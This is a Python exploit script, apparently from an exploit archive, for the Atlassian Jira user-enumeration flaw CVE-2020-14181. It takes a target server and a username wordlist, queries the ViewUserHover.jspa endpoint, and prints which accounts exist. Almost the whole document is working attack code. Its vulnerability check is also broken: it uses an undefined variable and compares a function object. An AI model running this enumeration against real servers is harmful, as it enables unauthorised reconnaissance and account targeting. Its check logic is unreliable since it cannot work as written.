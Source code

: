 EXP
---

    # Title: Atlassian JIRA 8.11.1 - User Enumeration
    # Author: Dolev Farhi
    # Vulnerable versions: version < 7.13.16,  8.0.0 ≤ version < 8.5.7, 8.6.0 ≤ version < 8.12.0
    # CVE: CVE-2020-14181
    # Credit to original CVE author: Mikhail Klyuchnikov of Positive Technologies.

    import sys
    import os
    import requests

    def help():
        print('python3 script.py <target> <usernames_file>')
        print('e.g. python3 script.py https://jiratarget.com usernames.txt')
        sys.exit()

    if len(sys.argv) < 3:
      help()

    server = sys.argv[1]
    usernames = sys.argv[2]

    random_user = '0x00001'

    try:
      os.path.exists(usernames)
    except:
      print(usernames, 'file does not exist.')
      sys.exit(1)

    def test_vulnerable():
      resp = requests.get('{}/secure/ViewUserHover.jspa?username={}'.format(server, username))
      if 'User does not exist: {}'.format(random_user) in resp.text:
        return True
      return False

    if test_vulnerable is False:
      print('server is not vulnerable.')
      sys.exit(1)

    f = open(usernames, 'r').read()

    for username in f.splitlines():
      resp = requests.get('{}/secure/ViewUserHover.jspa?username={}'.format(server, username))
      if 'User does not exist' not in resp.text:
        print('EXISTS', username)